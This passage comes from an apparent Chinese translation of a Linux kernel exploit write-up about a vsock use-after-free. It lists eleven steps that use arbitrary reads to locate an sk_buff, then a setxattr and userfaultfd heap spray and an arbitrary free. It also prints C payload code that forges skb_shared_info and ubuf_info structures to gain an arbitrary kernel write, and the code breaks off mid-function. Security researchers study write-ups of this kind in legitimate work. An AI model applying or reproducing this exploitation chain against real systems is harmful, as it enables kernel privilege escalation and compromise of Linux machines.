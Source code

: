 我构建了以下步骤：

1.使用`socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)`创建一个客户端套接字和32个服务器套接字

2.在用户空间中准备一个2800字节的缓冲区，并用**0x42**对其`memset()`

3.用`sendto()`将这个缓冲区从客户端套接字发送到每个服务器套接字，用于在`kmalloc-4k`中创建`sk_buff`对象。在每个可用的CPU上使用`sched_setaffinity()

4.对`vsock_sock`执行任意读取过程

5.计算可能的`sk_buff`内核地址为`sk_memcg`加4096(`kmalloc-4k`的下一个元素)

6.对这个可能的`sk_buff`地址执行任意读

7.如果在网络数据的位置找到**0x42424242424242lu**，则找到真正的`sk_buff`，进入**步骤8**。否则，在可能的`sk_buff`地址上加4096，转到**步骤6**

8.`sk_buff`上执行32个`pthreads`的`setxattr()&amp;userfaultfd()`堆喷射，并把它们挂在`pthread_barrier`上

9.对`sk_buff`内核地址进行任意释放

10.调用`pthread_barrier_wait()`，执行32个`setxattr()`覆盖`skb_shared_info`的堆喷`pthreads`

11.使用`recv()`接收服务器套接字的网络消息。



## 0x10 通过skb_shared_info 进行任意写

以下是覆盖`sk_buff`对象的有效payload：

```
#define SKB_SIZE        4096
#define SKB_SHINFO_OFFSET    3776
#define MY_UINFO_OFFSET        256
#define SKBTX_DEV_ZEROCOPY    (1 &lt;&lt; 3) 
void prepare_xattr_vs_skb_spray(void)
`{`
    struct skb_shared_info *info = NULL;

    xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

    /* Don't touch the second part to avoid breaking page fault delivery */
    memset(spray_data, 0x0, PAGE_SIZE * 4);

    info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
    info-&gt;tx_flags = SKBTX_DEV_ZEROCOPY;
    info-&gt;destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

    uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);
```

`skb_shared_info`驻留在喷射数据中，正好在偏移量`SKB_SHINFO_OFFSET`处，即3776字节。`skb_shared_info.destructor_arg`指针存储了`struct ubuf_info`的地址。因为被攻击的`sk_buff`的内核地址是已知的，所以能在网络缓冲区的`MY_UINFO_OFFSET`处创建了一个假的`ubuf_info`。下面是有效payload的布局：

[![](https://p0.ssl.qhimg.com/t0185ccbf9f025c74da.png)](https://p0.ssl.qhimg.com/t0185ccbf9f025c74da.png)
